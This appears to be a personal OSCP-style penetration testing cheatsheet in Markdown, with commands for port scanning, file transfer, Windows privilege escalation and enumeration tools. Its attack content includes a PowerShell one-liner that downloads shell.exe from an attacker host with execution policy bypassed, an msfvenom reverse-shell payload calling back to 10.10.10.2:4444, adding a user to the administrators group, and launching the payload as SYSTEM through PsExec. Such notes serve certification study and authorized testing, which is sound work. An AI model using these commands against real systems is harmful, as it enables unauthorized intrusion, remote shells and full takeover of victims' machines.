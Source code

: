 # Pentest Toolkit / OSCP Cheatsheet

imma just throw things that work in here

# Table of Contents

+ [Reconaissance](#reconaissance)
    1. [Port Scanning](#port-scanning)
    2. [Directory Enumeration](#directory-enumeration)
    3. [Header Analysis](#header-analysis)
+ [Exploitation](#exploitation)
+ [Post-Exploitation Enumeration](#post-exploitation)
+ [Privilege Escalation](#privilege-escalation)
    1. [Linux](#linux-privesc)
    2. [Windows](#windows-privesc)
        - The Basics
        - Payloads
        - Privesc Enumeration Tools


## Reconaissance

### Port Scanning
#### Full TCP scan
```bash
sudo nmap -sC -sV -O --open -p- -oA full-tcp [targets]
```

#### Full UDP Scanning
```bash
sudo nmap -sU -p- -oA full-udp [targets]
```

#### NSE Scripts with Ports
```bash
sudo nmap --scripts vuln,safe,discovery -p \[ports] [targets]
```

### Directory Enumeration

### Header Analysis

## Exploitation
## Post-Exploitation

### File Transfers

#### From Cmd.exe

```bash
powershell -ExecutionPolicy bypass -noprofile -c (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.2:8080/shell.exe','C:\Users\Public\shell.exe')
```


## Privilege Escalation 

### Linux Privesc

First and foremost, [g0tmi1k's blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation) is more comprehensive than the commands I will list here.

### Windows Privesc

[FuzzySecurity's blog post](https://www.fuzzysecurity.com/tutorials/16.html)

[Tib3rius's Windows PrivEsc course](https://www.udemy.com/course/windows-privilege-escalation/)
- **The Basics**

**Your User**
```bash
whoami
whoami /priv
net user [user]
```
**System Config**
```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
ipconfig /all
netstat -ano
tasklist /SVC
```


- **Payloads**

### msfvenom executable payload

```bash
msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.2 LPORT=4444 -f exe -o reverse.exe
```

RDP- add user to administrators group first

```bash
net localgroup administrators [user] /add
```

PsExec from Windows Sysinternals

```bash
.\PsExec64.exe -accepteula -i -s C:\temp\reverse.exe
```

- **PrivEsc Enumeration Tools**

[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1):
```bash
powershell -exec bypass
. .\PowerUp.ps1
Invoke-Allchecks
```

[SharpUp](https://github.com/GhostPack/SharpUp):
```bash
.\SharpUp.exe
```

[SeatBelt](https://github.com/GhostPack/Seatbelt) (more verbose, less targeted at privesc):
```bash
.\SeatBelt.exe all
.\SeatBelt.exe Nonstandard
```

[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS):
List checks
```bash
.\winPEASany.exe -h
```
Single check
```bash
.\winPEASany.exe userinfo
```
All checks
```bash
.\winPEASany.exe
```


